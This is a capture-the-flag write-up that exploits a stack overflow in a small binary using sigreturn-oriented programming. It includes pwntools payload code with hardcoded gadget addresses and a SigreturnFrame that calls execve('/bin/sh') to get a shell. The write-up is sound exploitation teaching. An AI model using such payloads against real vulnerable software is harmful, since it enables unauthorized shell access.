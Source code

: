 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes by read syscall. And we can modify return address if we send enough bytes to override. First of all, we need to find a possible gadget and `/bin/sh` address.

![image](https://github.com/user-attachments/assets/618d8c46-cbd1-4c37-987e-bf7fc383a72f)


Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
![image](https://github.com/user-attachments/assets/b9f3ec88-7915-49f1-88b1-25aac79cd63e)

```python
# Srop
POP_RAX =0x0043018
SYSCALL_RET=0x043015
BINSH = 0x43238
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
payload = b'a'*0x8  # 8 bytes override for save rbp
payload += p64(POP_RAX)
payload += p64(0xf)  # syscall number for rt_sigreturn(), search for linux syscall table
payload += p64(SYSCALL_RET)

frame = SigreturnFrame()
frame.rax = 0x3b           # syscall number for execve() function, u can search linux syscall table
frame.rdi = BINSH          
frame.rsi = 0x0             
frame.rdx = 0x0 
frame.rip = SYSCALL_RET   

payload += bytes(frame)
```
# Why I created like this. We should know how the stack allocate data.

[filler | rop.rax[0] | 0xf | rop.syscall[0] | Sigreturn Frame]

When SYS_read reads the payload onto the stack (at RSP - 8), the stack looks like this:
```
RSP-8: "w3th4nds"
RSP: rop.rax[0]
RSP+8: 0xf
RSP+16: rop.syscall[0]
RSP+24: [Sigreturn Frame]
```
The ret instruction jumps to the value at RSP now is RAX

Gadget pop rax; ret:
pop rax: Get 0xf from RSP+8 and allocate it to RAX.

ret: Skip to rop.syscall[0] at RSP+16.

The syscall gadget (at rop.syscall[0]) calls SYS_rt_sigreturn because RAX = 0xf now.
Why is this needed?

SYS_rt_sigreturn requires RAX = 0xf and needs a way to put this value into RAX. The pop rax utility; ret is the only tool in the program that is allowed to do that.
After RAX = 0xf, we need to call the syscall to execute. So this ROP string is the "start" step to move to the next stage.

Thinking: The ROP chain is like a "bridge" from the initial state of the program (after SYS_read) to the SROP mechanism.
# Sigreturn Frame Section - "Execute the final goal"

Goal: Provide a frame signal to the kernel to read when SYS_rt_sigreturn is called, from which registers are set to call execve("/bin/sh", NULL, NULL).

When SYS_rt_sigreturn is called (from the utility syscall in stage 1), the kernel checks the stack at location RSP for the Sigreturn Frame.

At this point, RSP points to RSP+24 (byte(frame) section), which contains the values:
RAX = 0x3b (execve syscall number).
RDI = binsh (pointer to /bin/sh).
RSI = 0x0 (NULL).
RDX = 0x0 (NULL).
RIP = rop.syscall[0] (return utility syscall).

The kernel "restores" these registers and jumps to rop.syscall[0].
The utility syscall is called again, but now RAX = 0x3b, so it executes execve("/bin/sh", NULL, NULL).

Why is this part needed?
SYS_rt_sigreturn doesn't know that we want to call execve. We have to provide a frame signal to "tell" the kernel: "Set the registers like this and jump here".

This is the only way to control multiple registers at once (RAX, RDI, RSI, RDX, RIP) without needing a longer ROP chain (which is hard to find in a small binary like this).

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

